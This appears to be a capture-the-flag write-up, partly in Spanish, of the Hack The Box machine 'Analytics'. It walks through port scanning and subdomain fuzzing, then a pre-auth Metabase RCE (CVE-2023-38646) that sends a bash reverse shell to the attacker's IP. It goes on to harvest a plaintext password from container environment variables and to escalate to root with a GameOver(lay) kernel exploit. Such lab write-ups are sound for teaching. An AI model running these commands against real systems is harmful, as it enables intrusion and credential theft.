

# Analytics


## Reconnaissance


```bash
❯ nmap -p- --open -sS --min-rate 1000 -vvv -Pn -n 10.10.11.233 -oG allPorts
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-05 17:22 CET
Initiating SYN Stealth Scan at 17:22
Scanning 10.10.11.233 [65535 ports]
Discovered open port 80/tcp on 10.10.11.233
Completed SYN Stealth Scan at 17:22, 16.20s elapsed (65535 total ports)
Nmap scan report for 10.10.11.233
Host is up, received user-set (0.13s latency).
Scanned at 2025-02-05 17:22:26 CET for 16s
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 16.30 seconds
           Raw packets sent: 66091 (2.908MB) | Rcvd: 66109 (2.645MB)
```


```bash
❯ extractPorts allPorts

[*] Extracting information...

	[*] IP Address: 10.10.11.233
	[*] Open ports: 80

[*] Ports copied to clipboard
```


```bash
❯ nmap -sCV -p80 10.10.11.233 -A -oN targeted -oX targetedXMl
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-05 17:24 CET
Nmap scan report for analytical.htb (10.10.11.233)
Host is up (0.061s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Analytical
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19, Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   87.23 ms 10.10.16.1
2   44.37 ms analytical.htb (10.10.11.233)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.95 seconds
```


```bash
❯ xsltproc targetedXML > index.html
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```


<figure><figcaption></figcaption></figure>


## Web Enumeration


<figure><figcaption></figcaption></figure>


```bash
❯ whatweb http://analytical.htb/
http://analytical.htb/ [200 OK] Bootstrap, Country[RESERVED][ZZ], Email[demo@analytical.com,due@analytical.com], Frame, HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.11.233], JQuery[3.0.0], Script, Title[Analytical], X-UA-Compatible[IE=edge], nginx[1.18.0]
```


```bash
❯ dirsearch -u 'http://analytical.htb' -i 200 -t 50 2>/dev/null

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 50 | Wordlist size: 11460

Output File: /home/kali/Desktop/HackTheBox/Linux/Analytics/Analytics/reports/http_analytical.htb/_25-02-05_17-27-23.txt

Target: http://analytical.htb/

[17:27:23] Starting: 

Task Completed
```


### Subdomain Enumeration


```bash
❯ wfuzz --hh=154 -c --hc=404,400 -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -H "Host: FUZZ.analytical.htb" http://analytical.htb 2>/dev/null
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://analytical.htb/
Total requests: 220546

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                                              
=====================================================================

000005043:   200        27 L     3538 W     77677 Ch    "Data"   
```


<figure><figcaption></figcaption></figure>


## Initial Foothold


### Metabase Exploitation - PreAuth Remote Code Execution \[RCE] (CVE-2023-38646)



MetaBase es una plataforma que permite analizar el contenido de los archivos históricos (Log Files) generados por el sistema Proxy y las plataformas de gestión como Dspace, Open Journal System y Koha de las unidades de información.



<figure><figcaption></figcaption></figure>




```bash
❯ git clone https://github.com/m3m0o/metabase-pre-auth-rce-poc; cd metabase-pre-auth-rce-poc
Clonando en 'metabase-pre-auth-rce-poc'...
remote: Enumerating objects: 26, done.
remote: Counting objects: 100% (26/26), done.
remote: Compressing objects: 100% (24/24), done.
remote: Total 26 (delta 12), reused 2 (delta 1), pack-reused 0 (from 0)
Recibiendo objetos: 100% (26/26), 12.09 KiB | 275.00 KiB/s, listo.
Resolviendo deltas: 100% (12/12), listo.

❯ python3 main.py -h
usage: This script causes a server running Metabase (< 0.46.6.1 for open-source edition and < 1.46.6.1 for enterprise edition) to execute a command through the security flaw described in CVE 2023-38646

options:
  -h, --help            show this help message and exit
  -u URL, --url URL     Target URL
  -t TOKEN, --token TOKEN
                        Setup Token from /api/session/properties
  -c COMMAND, --command COMMAND
                        Command to be execute in the target host
```


```bash
❯ curl -s -X GET 'http://data.analytical.htb/api/session/properties' | jq | grep -i 'setup-token' | tr -d '":,'
  setup-token 249fa03d-fd94-4d5b-b94f-b4ebf3df681f
```


```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```


```bash
❯ python3 main.py -u http://data.analytical.htb -t "249fa03d-fd94-4d5b-b94f-b4ebf3df681f" -c "bash -i >& /dev/tcp/10.10.16.2/443 0>&1"
[!] BE SURE TO BE LISTENING ON THE PORT YOU DEFINED IF YOU ARE ISSUING AN COMMAND TO GET REVERSE SHELL [!]

[+] Initialized script
[+] Encoding command
[+] Making request
[+] Payload sent
```


```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.2] from (UNKNOWN) [10.10.11.233] 48946
bash: cannot set terminal process group (1): Not a tty
bash: no job control in this shell

47200cf3578f:/$ ip a
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
4: eth0@if5: <BROADCAST,MULTICAST,UP,LOWER_UP,M-DOWN> mtu 1500 qdisc noqueue state UP 
    link/ether 02:42:ac:11:00:02 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.2/16 brd 172.17.255.255 scope global eth0
       valid_lft forever preferred_lft forever
```


## Initial Access


```bash
47200cf3578f:/$ id      
id
uid=2000(metabase) gid=2000(metabase) groups=2000(metabase),2000(metabase)
```


### Docker Container Information Leakage


```bash
47200cf3578f:/$ env
env
SHELL=/bin/sh
MB_DB_PASS=
HOSTNAME=47200cf3578f
LANGUAGE=en_US:en
MB_JETTY_HOST=0.0.0.0
JAVA_HOME=/opt/java/openjdk
MB_DB_FILE=//metabase.db/metabase.db
PWD=/
LOGNAME=metabase
MB_EMAIL_SMTP_USERNAME=
HOME=/home/metabase
LANG=en_US.UTF-8
META_USER=metalytics
META_PASS=An4lytics_ds20223#
MB_EMAIL_SMTP_PASSWORD=
USER=metabase
SHLVL=4
MB_DB_USER=
FC_LANG=en-US
LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
LC_CTYPE=en_US.UTF-8
MB_LDAP_BIND_DN=
LC_ALL=en_US.UTF-8
MB_LDAP_PASSWORD=
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MB_DB_CONNECTION_URI=
JAVA_VERSION=jdk-11.0.19+7
_=/usr/bin/env
```


```bash
❯ ssh metalytics@analytical.htb
metalytics@analytical.htb's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 6.2.0-25-generic x86_64)

Last login: Tue Oct  3 09:14:35 2023 from 10.10.14.41
metalytics@analytics:~$ cat user.txt 
11dab8814d**********************
```


## Privilege Escalation


### Kernel Exploitation - GameOver(lay)

```bash
metalytics@analytics:~$ uname -a
Linux analytics 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2 x86_64 x86_64 x86_64 GNU/Linux
```




```bash
metalytics@analytics:/tmp$ ./exploit.sh 
[+] You should be root now
[+] Type 'exit' to finish and leave the house cleaned
root@analytics:/tmp$ cat /root/root.txt 
c7ef42d91***********************
```
